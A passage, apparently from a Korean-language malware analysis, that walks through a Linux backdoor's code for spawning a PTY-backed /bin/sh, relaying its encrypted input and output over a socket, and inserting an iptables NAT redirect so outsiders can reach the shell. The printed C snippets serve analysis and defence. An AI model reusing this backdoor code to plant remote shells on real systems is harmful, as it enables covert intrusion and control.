 ```c
```

### 8. 의사 터미널(PTY) 생성 및 쉘 실행

- 대화형 TTY 쉘을 만들기 위해 의사 터미널을 생성한다.

```c
// PTY/TTY 쌍 생성
char pts_name[20];
pty = ptym_open(pts_name); // /dev/ptmx 오픈
tty = ptys_open(pty, pts_name); // 대응하는 /dev/pts/X 오픈
```

- `ptym_open()`은 `/dev/ptmx`를 열어 마스터 PTY를 반환하고 대응하는 슬레이브 TTY 경로(`/dev/pts/N`)를 가져온다.
- `ptys_open()`은 슬레이브 TTY를 열고 IOCTL로 추가 설정을 적용한다.

```c
// 쉘 실행
dup2(tty, 0); dup2(tty, 1); dup2(tty, 2);
execve("/bin/sh", argvv, envp);
```

- 슬레이브 TTY를 stdin, stdout, stderr에 연결하고, `/bin/sh`를 `execve()`로 실행하여 대화형 쉘을 제공한다.

### 9. 대화형 쉘 I/O 리디렉션 및 제어

이후 `select()` 시스템 콜을 통해 PTY와 소켓의 입출력을 감시하며 데이터를 양방향 전송한다.

```c
while (1) {
    FD_ZERO(&fds);
    FD_SET(pty, &fds);
    FD_SET(sock, &fds);

    select(max(pty, sock) + 1, &fds, NULL, NULL, NULL);

    if (FD_ISSET(pty, &fds)) {
        int count = read(pty, buf, BUF);
        if (count <= 0) break;
        cwrite(sock, buf, count); // 암호화 후 전송
    }

    if (FD_ISSET(sock, &fds)) {
        int count = cread(sock, buf, BUF); // 수신 후 복호화
        if (count <= 0) break;
        write(pty, buf, count);
    }
}
```

쉘 연결시에, 역방향 연결이 불가능한 상황에서는 iptables 명령어를 사용하여 포트를 리디렉션함으로써 외부 접속을 유도한다.

- e.g. 외부에서 `192.168.0.100:12345`로 접속 시 내부에서는 `127.0.0.1:54321`로 전달되도록 설정

```c
snprintf(cmd, sizeof(cmd), "/sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d", ip, fromport, toport);
system(cmd);
```

